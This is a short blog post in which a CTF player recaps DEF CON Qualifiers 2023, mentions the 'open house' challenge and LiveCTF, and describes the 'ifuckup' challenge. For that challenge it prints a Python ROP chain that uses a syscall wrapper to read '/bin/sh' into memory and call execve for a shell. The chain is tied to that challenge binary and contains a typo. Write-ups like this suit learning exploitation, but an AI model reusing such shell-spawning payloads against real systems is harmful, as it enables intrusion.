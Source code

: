 +++
title = "Defcon Qualifiers 2023!"
tags = ["PWN", "Defcon"]
description = "I played with a team of about 50 CTF players during defcon Qualifiers 2023!"
date = "May 27th"
author = "GoldenBoy"
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# Defcon
While this post does not contain any specific information regarding the challenges, I wanted to mention here that I played in this year's Defcon Qualifiers.

It was a lot of fun, and I learned a lot. In particular, I learned about how programs are linked together at compile time to form an elf binary, as well as some of the cool things c programs can do! 

I helped out with the pwn side of about 7 challenges, including ifuckup, open house, and 5 of the live challenges.

### Open House
for open house, one of my teammates (toasterpwn) wrote an [excelent writeup](https://toasterpwn.github.io/posts/defcon-ctf-2023-qualifiers/) that I recommend you check out!

### ifuckup
Regarding ifuckup, I helped out in a very small way. In short, my teammates figured out a way to break the prng used to generate the random address of the stack and code base. So, I just had to build a rop chain that spawns a shell using syscalls.

This took a bit of time, but was pretty easy, considering there is a syscall wrapper function available

```python
    syscall_wrapper_offset = 0x102d
    base = 0x0 #leaked by teammates
    pop4_ret = 0x10c4
    bin_sh_off = 0x3730

    #offset at 22 for eip
    rop_chain = b"A"*22
    rop_chain += p32(base + syscall_wrapper_offset) #call the syscall wrapper, so the stack is passed as arguments
    rop_chain += p32(base + pop4_ret) #remove junk on return
    rop_chain += p32(3) #read
    rop_chain += p32(0) #stdin
    rop_chain += p32(base + bin_sh_off) #ptr to a writable section in memory
    rop_chain += p32(11) #bytes to read
    rop_chain += p32(base + syscall_wrapper_offset) #call again
    rop_chain += p32(0) #padding
    rop_chai += p32(11) #execve
    rop_chain += p32(base + bin_sh_off) #ptr to bin sh
    rop_chain += p32(0) #argv
    rop_chain += p32(0) #envp
    rop_chain += p32(0)*7 + b"\x00\x00" #pad it to fit 100 chars

    r.sendline(rop_chain) #send initial chain
    r.sendline(b"/bin/sh"+p32(0)) #send the input to be read by crafted syscall
```

Once again, I want to make clear that this would not have been possible without the genius of our crypto players! Great work Shadowwws, ContronThePanda, vishiswoz, Quasar, and especially Genni!

All in all, I'm just happy that I could help our team solve the challenge! Even if it was only though a small little piece.

If one of my teammates releases a full writeup of the challenge I will link to it here!

### livectf
Overall was a lot of fun, I am not the fastest coder so I mainly helped with ideas and brainstorming. My favorite challenge was liveCTF3 which revolved around designing your own elf link.so. I thought it was cool, and something I had never really thought about before. In the end, you can manually place some shellcode in the executable section and trigger it at the end of main execution.

### Conclusion
I am looking forward to playing again next year, hopefully after I get better at reverse engineering!

Our team placed 15th and the top 12 teams qualify :(

![failure to launch](defcon_stats.png)
